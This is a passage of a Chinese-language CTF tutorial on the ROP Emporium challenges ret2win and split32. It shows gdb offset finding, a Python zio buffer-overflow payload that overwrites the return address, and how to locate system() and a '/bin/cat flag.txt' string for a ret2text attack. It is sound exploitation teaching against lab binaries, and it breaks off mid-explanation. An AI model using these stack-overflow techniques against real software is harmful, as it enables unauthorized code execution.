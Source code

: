 ```text
0x0000000000400810 in pwnme ()
gdb-peda$ pattern_offset $rbp
7007954260868540737 found at offset: 32
gdb-peda$ pattern_offset AA0AAFAAb
AA0AAFAAb found at offset: 40
```

`re2win()` 的地址为 `0x0000000000400811`，payload 如下：

```python
from zio import *

payload = "A"*40 + l64(0x0000000000400811)

io = zio('./ret2win')
io.writeline(payload)
io.read()
```

### split32

这一题也是 ret2text，但这一次，我们有的是一个 `usefulFunction()` 函数：

```text
gdb-peda$ disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:     push   ebp
   0x0804864a <+1>:     mov    ebp,esp
   0x0804864c <+3>:     sub    esp,0x8
   0x0804864f <+6>:     sub    esp,0xc
   0x08048652 <+9>:     push   0x8048747
   0x08048657 <+14>:    call   0x8048430 <system@plt>
   0x0804865c <+19>:    add    esp,0x10
   0x0804865f <+22>:    nop
   0x08048660 <+23>:    leave  
   0x08048661 <+24>:    ret
End of assembler dump.
```

它调用 `system()` 函数，而我们要做的是给它传递一个参数，执行该参数后可以打印出 flag。

使用 radare2 中的工具 rabin2 在 `.data` 段中搜索字符串：

```text
$ rabin2 -z split32
...
vaddr=0x0804a030 paddr=0x00001030 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
```

我们发现存在字符串 `/bin/cat flag.txt`，这正是我们需要的，地址为 `0x0804a030`。

下面构造 payload，这里就有两种方法，一种是直接使用调用 `system()` 函数的地址 `0x08048657`，另一种是使用 `system()` 的 plt 地址 `0x8048430`，在前面的章节中我们已经知道了 plt 的延迟绑定机制（1.5.6动态链接），这里我们再回顾一下：

绑定前：
